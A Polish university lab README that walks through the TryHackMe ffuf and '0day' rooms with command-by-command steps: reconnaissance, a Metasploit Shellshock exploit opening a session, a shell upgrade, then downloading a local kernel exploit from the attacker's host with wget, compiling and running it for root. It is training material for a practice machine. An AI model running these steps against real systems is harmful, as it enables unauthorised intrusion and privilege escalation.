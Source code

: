 # BAWiM
Fuzzing, Zero-day attack, Authentication Failure

## Wymagania
* Wirtualnie bądź natywnie zainstalowana dystrybucja linux

## Zadanie 1 - Fuzz Faster U Fool
Wchodzimy na stronę: https://tryhackme.com/room/ffuf<br />
Należy się zalogować a jeśli nie posiada się jeszcze konta to stworzyć darmowe konto. <br />
Następnie postępujemy zgodnie z intrukcją tam zawartą.

Instalacja podstawowych narzędzi <br />
sudo apt -y install ffuf (jeśli nie działa to https://github.com/ffuf/ffuf)<br />
sudo apt -y install seclists (jeśli nie działa to https://github.com/danielmiessler/SecLists#install<br />
sudo apt install openvpn<br />

Po uruchomieniu Maszyny na TryHackMe klikamy w nasz profil i z ctr klikamy w Access.<br />
Natepnie pobieramy My configuration File.<br />
sudo openvpn path/to/file.ovpn  - pozwala nam połączyć się z maszynką

Nastepnie wchodzimy w przeglądarce na IP Adress, który znajduje się wyżej i jeśli wyświetli nam się strona z napisem "DVWA" to znaczy, że udało nam się połączyć.<br />
Postepujemy już dalej z instrukcją na stronie.

## Zadanie 2 - 0day Walkthrough
Wchodzimy na stronę: https://tryhackme.com/room/0day<br />
Tak samo jak w poprzednim zadaniu, uruchamiamy maszynę i łączymy się z nią przez Openvpn<br />
Naszym zadaniem jest włamac się na stronę.

Spróbuj samemu ale jeśli ci się nie uda to,<br />
<b>poniżej będzie znajdować się instrukcja jak przejść przez ten proces krok po kroku. </b>

Na poczatku zawsze warto przeskanować sobie otwarte porty na naszej maszynie<br />
nmap -sV -sC  -oN service-scam <ip maszyny> (jeśli nie mamy nmap instalujemy - sudo apt -y install nmap)<br />
![image](https://user-images.githubusercontent.com/103604178/214099482-b9a0e03b-0513-4b9d-a1cc-c7f26f4a025f.png)
Widzimy, że port 22 i 80 są otwarte

Następnie szukamy ukrytych katalogów
ffuf -u http://ip_maszyny/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt<br />
![image](https://user-images.githubusercontent.com/103604178/214101318-2eff5d3c-8486-4352-b79b-c0ce92e534cb.png)

Nastepnie stosujemy
nikto -h http://ip_maszyny (jesli nie mamy instalujemy - sudo apt -y install nikto)<br />
![image](https://user-images.githubusercontent.com/103604178/214102537-7e764940-c20e-4a35-9693-d16ba07026c8.png)
W wyniku zauważamy ciekawą opcję jaką jest "shellshock" <br />

teraz włączamy metasploit console komendą: msfconsole<br />
search shellshock - ta komenda pokazuje nam różne podatności w tej rodzinie (Shellshock)<br />
Nas interesuje ta z Apache mod_cgi Bash, ponieważ widzieliśmy wcześniej, że nasz serwer korzysta z apache<br />
uruchamiamy ten o nazwie exploti/multi/http/apache_mod_cgi_bash_env_exec za pomocą komendy: use <numer > <br />
set rhosts ip_maszyny - ustawiamy ip maszyny<br />
set targeturi /cgi-bin/test.cgi - ustawiamy target naszego uri, ten ponieważ wcześniej sprawdziliśmy, że może byc podatny.<br />
set lhost ip_nasze - wchodzimy w nowym terminalu wpisujemy ifconfig i kopiujemy inet z tun0<br />
exploit - uruchamiamy naszego exploita

Następnie tworzy nam się sesja<br />
shell - tworzy nam się nowy procec<br />
python -c 'import pty;pty.spawn("/bin/bash")'<br />
cd /home/ryan <br />
cat user.txt - i mamy naszą pierwszą flage

Teraz wpisujemy: uname -a <br />
Otrzymujemy ubuntu 3.13.0<br />
W nowym terminalu wpisujemy: searchsploit ubuntu 3.13.0<br />
sudo searchsploit -m linux/local/37292.c - powinien nam się pojawic w katalogu<br />
python -m SimpleHTTPServer - tworzymy prosty serwer

Wracamy teraz do naszego poprzedniego shella<br />
wget http://ip_nasz/8000/37292.c - wgrywamy sobie metasploita<br />
gcc 37292.c -o explo -kompilujemy<br />
chmod +x explo<br />
./explo<br />
cat /root/root.txt - otrzymujemy naszą drugą flagę
